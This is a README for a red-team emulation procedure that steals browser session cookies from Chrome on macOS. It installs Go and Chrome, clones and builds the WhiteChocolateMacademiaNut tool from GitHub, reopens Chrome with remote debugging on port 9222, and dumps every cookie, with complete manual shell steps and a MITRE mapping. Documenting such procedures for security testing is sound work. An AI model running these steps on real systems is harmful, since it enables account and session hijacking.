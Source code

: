 # Extract Cookies with Chromium Browser via Remote Debugger Port

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP extracts cookies from Chromium-based browsers from a target system using the WhiteChocolateMacademiaNut tool. It currently works on macOS with Google Chrome, but can easily be extended to Microsoft Edge browser and to work on Linux (via apt) and Windows (via Chocolately).

## Pre-requisites

1. The executor can run as the current user on the target system.
2. The WhiteChocolateMacademiaNut tool must be accessible via a remote repository.
3. A Package manager is required such as Homebrew which will download and install the necessary tools such as Golang and Google Chrome.

## Examples

You can run the TTP using the following example:
```bash
ttpforge run forgearmory//credential-access/extract-cookies-from-chromium-browser/extract-cookies-from-chromium-browser.yaml
```

## Steps
1. **setup**: This step checks the current operating system. Currently, it checks if brew is installed. If brew is installed it will download and install Golang and Chrome.
2. **clone-whitecocolatemacademianut**: This step clones the WhiteChocolateMacademiaNut repository from GitHub. This will checkout commit b024f72f6350fb62853f06052a8431d20e76db7a. A cleanup step is also provided to remove the repository post-execution.
3. **build-whitecocolatemacademianut**: This step uses golang and build WhiteChocolateMacademiaNut allowing it to work on its respective operating system.
4. **run-whitecocolatemacademianut**: This step opens up Chrome and navigates to google.com and then the process is killed. Afterwards, Chrome is opened with remote debugger port on port 9222. WhiteChocolateMacademiaNut is then ran to steal the cookies. If the execution status is successful (0), the TTP exits with a success message. Otherwise, it exits with an error message.


## Manual Reproduction Steps

```
# Assuming Homebrew is present, install Golang and Google Chrome
brew install golang
brew install --cask google-chrome

# Clone and build WhiteChocolateMacademiaNut
git clone https://github.com/slyd0g/WhiteChocolateMacademiaNut
cd WhiteChocolateMacademiaNut
go mod init github.com/slyd0g/WhiteChocolateMacademiaNut
go get github.com/akamensky/argparse
go get golang.org/x/net/websocket
go build -o WhiteChocolateMacademiaNut

# Simulate browser activity
open -a "Google Chrome" "https://www.google.com" &
killall "Google Chrome" 

# Open Chrome with remote debugger port
"/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --remote-debugging-port=9222 --restore-last-session --remote-allow-origins=http://localhost/ &

# Run WhiteChocolateMacademiaNut
./WhiteChocolateMacademiaNut --port 9222 --dump cookies --format raw
```

## MITRE ATT&CK Mapping

- **Tactics**:
  - TA0006 Credential Access
- **Techniques**:
  - T1539 Steal Web Session Cookie
